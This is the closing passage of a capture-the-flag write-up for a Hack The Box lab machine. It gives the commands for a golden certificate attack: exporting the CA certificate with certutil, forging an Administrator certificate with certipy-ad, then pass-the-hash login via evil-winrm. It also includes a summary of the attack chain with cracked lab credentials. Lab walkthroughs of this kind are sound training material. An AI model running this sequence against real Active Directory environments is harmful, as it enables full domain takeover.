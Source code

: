 
### 8. Golden Certificate Attack

#### Check Available Certificates
```powershell
certutil -Store My
```

#### Export Root CA Certificate
```powershell
certutil -exportPFX My 75b2f4bbf31f108945147b466131bdca cert.pfx
```
*Press Enter when prompted for password (passwordless export)*

#### Download Certificate
```powershell
download cert.pfx
```

#### Forge Golden Ticket Certificate
```bash
certipy-ad forge -ca-pfx cert.pfx -out golden_ticket.pfx -upn Administrator
```

#### Authenticate as Administrator
```bash
certipy-ad auth -pfx golden_ticket.pfx -dc-ip 10.10.11.71 -user Administrator -domain CERTIFICATE.HTB
```

**Result:** `Administrator:aad3b435b51404eeaad3b435b51404ee:d804304519bf0143c14cbf1c024408c6`

---

### 9. Domain Administrator Access

#### Connect as Administrator
```bash
evil-winrm -i 10.10.11.71 -u Administrator -H d804304519bf0143c14cbf1c024408c6
```

#### Retrieve Root Flag
```powershell
cd Desktop
cat root.txt
```

🎉 **ROOT FLAG OBTAINED** 🎉

---

## Attack Chain Summary

1. **Web App Exploit** → Initial foothold via concatenated ZIP upload
2. **Database Compromise** → Extract user credentials (`sara.b:Blink182`)
3. **Kerberos Attack** → PCAP analysis and hash cracking (`Lion.SK:!QAZ2wsx`)
4. **Certificate Template Abuse** → ESC3 exploitation to obtain `ryan.k` access
5. **Privilege Escalation** → SeManageVolume exploit for enhanced permissions
6. **Golden Certificate** → Forge CA certificate for Administrator access
7. **Domain Admin** → Full domain compromise
